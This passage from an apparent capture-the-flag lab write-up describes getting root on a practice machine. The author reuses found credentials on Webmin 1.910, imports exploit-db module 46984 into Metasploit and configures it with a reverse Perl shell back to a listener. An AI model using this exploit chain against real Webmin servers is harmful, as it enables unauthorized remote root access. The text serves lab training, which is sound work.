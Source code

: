 # Getting root

The previous creds also work on the webmin authentication form allowing us to
login an see the webmin version: 1.910.

![webmin dashboard](/media/2020.xx/postman_1.png)

The exploit for searchsploit should works.

    :::text
    Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)  | exploits/linux/remote/46984.rb

We import the script in metasploit:

    :::text
    mkdir ~/.msf/modules/exploits/linux/remote
    cp /usr/share/exploitdb/exploits/linux/remote/46984.rb
    updated
    msfconsole

We give to metasploit all the needed information (user, password, IPs) and do
not forget to put the `SSL` parameter to `true`.

    :::text
    msf5 exploit(linux/remote/46984) > show options 

    Module options (exploit/linux/remote/46984):

      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      PASSWORD   computer2008     yes       Webmin Password
      Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
      RHOSTS     10.10.10.160     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      RPORT      10000            yes       The target port (TCP)
      SSL        true             no        Negotiate SSL/TLS for outgoing connections
      TARGETURI  /                yes       Base path for Webmin application
      USERNAME   Matt             yes       Webmin Username
      VHOST                       no        HTTP server virtual host


    Payload options (cmd/unix/reverse_perl):

      Name   Current Setting  Required  Description
      ----   ---------------  --------  -----------
      LHOST  10.10.14.13      yes       The listen address (an interface may be specified)
      LPORT  4444             yes       The listen port


    Exploit target:

      Id  Name
      --  ----
      0   Webmin <= 1.910

Then we run the script. We are directly root on the box and get the flag.
